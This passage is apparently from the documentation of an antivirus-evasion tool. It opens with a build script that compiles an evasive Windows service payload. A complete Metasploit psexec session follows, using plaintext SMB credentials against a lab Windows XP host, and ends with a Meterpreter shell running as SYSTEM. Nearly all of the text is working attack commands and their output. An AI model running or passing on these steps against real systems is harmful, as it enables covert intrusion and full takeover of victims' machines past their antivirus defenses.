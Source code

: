 ```
$win32_compiler -o output/service.exe source/avetsvc.c -lws2_32
strip output/service.exe

# cleanup
cleanup_techniques
```

And on the metasploit side:
```
msf exploit(psexec) > use exploit/windows/smb/psexec
msf exploit(psexec) > set EXE::custom /root/tools/ave/pwn.exe
EXE::custom => /root/tools/ave/pwn.exe
msf exploit(psexec) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf exploit(psexec) > set rhost 192.168.116.183
rhost => 192.168.116.183
msf exploit(psexec) > set smbuser dax
smbuser => dax
msf exploit(psexec) > set smbpass test123
smbpass => test123
msf exploit(psexec) > set lport 8443
lport => 8443
msf exploit(psexec) > run

[*] 192.168.116.183:445 - Connecting to the server...
[*] Started bind handler
[*] 192.168.116.183:445 - Authenticating to 192.168.116.183:445 as user 'dax'...
[*] Sending stage (957487 bytes) to 192.168.116.183
[*] 192.168.116.183:445 - Selecting native target
[*] 192.168.116.183:445 - Uploading payload...
[*] 192.168.116.183:445 - Using custom payload /root/tools/avepoc/a.exe, RHOST and RPORT settings will be ignored!
[*] 192.168.116.183:445 - Created \mzrCIOVg.exe...
[+] 192.168.116.183:445 - Service started successfully...
[*] 192.168.116.183:445 - Deleting \mzrCIOVg.exe...
[-] 192.168.116.183:445 - Delete of \mzrCIOVg.exe failed: The server responded with error: STATUS_CANNOT_DELETE (Command=6 WordCount=0)
[*] Exploit completed, but no session was created.
msf exploit(psexec) > [*] Meterpreter session 4 opened (192.168.116.142:33453 -> 192.168.116.183:8443) at 2017-05-27 18:47:23 +0200

msf exploit(psexec) > sessions

Active sessions
===============

Id Type Information Connection
-- ---- ----------- ----------
4 meterpreter x86/windows NT-AUTORIT_T\SYSTEM @ DAX-RYMZ48Z3EYO 192.168.116.142:33453 -> 192.168.116.183:8443 (192.168.116.183)

msf exploit(psexec) > sessions -i 4
[*] Starting interaction with 4...

meterpreter > sysinfo
Computer : DAX-RYMZ48Z3EYO
OS : Windows XP (Build 2600, Service Pack 3).
Architecture : x86
System Language : de_DE
Domain : ARBEITSGRUPPE
Logged On Users : 2
Meterpreter : x86/windows
```
